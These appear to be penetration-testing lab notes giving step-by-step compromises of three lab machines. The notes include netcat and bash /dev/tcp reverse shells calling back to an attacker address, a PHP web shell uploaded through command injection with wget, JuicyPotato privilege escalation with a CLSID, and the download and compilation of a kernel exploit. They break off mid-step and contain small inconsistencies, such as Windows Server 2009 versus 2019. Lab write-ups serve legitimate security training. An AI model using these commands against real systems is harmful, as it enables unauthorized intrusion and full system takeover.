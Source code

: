 ```bash
V1RUS (.84)
```
Operating SystemWindows
Points25
Similar Machine (User)
Similar Machine (Root)
HackTheBox’s Bounty
Exploit in Getting User
1. The https://192.168.XX.84/ is running a GitStack instance that is vulnerable to RCE -
https://www.exploit-db.com/exploits/43777
1. Change the value of IP and command variable.
2. command = "C:/GitStack/gitphp/nc.exe 192.168.XX.43 1337 -e cmd.exe"
3. User shell!
Privilege Escalation to Root
1. The machine is running Windows Server 2009 and the SeImpersonatePrivilege is
enabled.
1. Download JuicyPotato - https://github.com/ohpe/juicy-potato and send it to target
machine
1. Upload a nc binary to target machine and run the command: echo
C:/GitStack/gitphp/nc.exe 192.168.XX.43 1338 -c cmd.exe > rev.bat
1. Find CLSID for Windows Server 2019
2. Run JuicyPotato.exe -l 1338 -p C:\GitStack\gitphp\rev.bat -t * -c
{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}
1. Root shell!

```bash
Bengine (.85)
```
Operating SystemWindows
Points20
Similar Machine (User)TryHackMe’s HackPark
Similar Machine (Root)
Exploit in Getting User
1. Nmap reveals hidden directory in robots.txt - /blogengine
2. Look for exploits in searchsploit or follow this
https://medium.com/@nickbhe/tryhackme-hackpark-writeup-db34b7957bef
1. User shell!
Privilege Escalation to Root
1. Vulnerable to SeCreateTokenPrivilege
2. Follow https://www.greyhathacker.net/?p=1025
3. Root shell!

```bash
thelongnight (.95)
```
Operating SystemLinux
Points20
Similar Machine (User)Code is similar to
https://github.com/lolypop55/html5_snmp
Similar Machine (Root)HackTheBox’s Help
Exploit in Getting User
1. Go to Port 4080 and login as admin:admin
2. Command Injection in http://192.168.XX.95:4080/ping_router.php?cmd=1.1.1.1
3. Create php reverse shell -
<?php exec("bash -c 'bash -i >& /dev/tcp/192.168.XX.XX/80 0>&1'"); ?>
1. Start a web server: python -m SimpleHTTPServer 80
2. Upload it via command injection -
http://192.168.XX.95:4080/ping_router.php?cmd=1.1.1.1;wget+192.168.XX.XX/shell.php
1. Start Listener - nc -lvnp 80
2. Browser http://192.168.XX.95:4080/shell.php
3. User shell!
Privilege Escalation to Root
1. Machine Kernel is vulnerable to https://www.exploit-db.com/exploits/45010
2. wget http://x.x.x.x:143/45010.c -O /tmp/45010.c
3. gcc /tmp/45010.c -o /tmp/45010